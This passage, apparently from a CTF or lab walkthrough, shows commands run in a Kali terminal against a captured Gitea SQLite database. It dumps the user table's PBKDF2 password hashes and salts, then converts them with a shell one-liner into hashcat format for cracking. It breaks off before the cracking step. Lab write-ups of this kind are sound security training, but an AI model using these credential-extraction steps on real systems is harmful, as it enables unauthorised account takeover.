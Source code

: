 
```jsx
┌──(kali㉿kali)-[~]
└─$ sqlite3 gitoea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
.
.
.
.
.
.
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook                  
sqlite> 
sqlite> SELECT passwd,salt,passwd_hash_algo,name from user;
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b|pbkdf2$50000$50|administrator
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34|pbkdf2$50000$50|developer
sqlite> 
```

We use the following command to extract password hashes from the Gitea database:

```jsx                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ sqlite3 gitoea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes


administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
                                                                                         
                                                                                        
``` 

Now, we use Hashcat to crack these hashes:
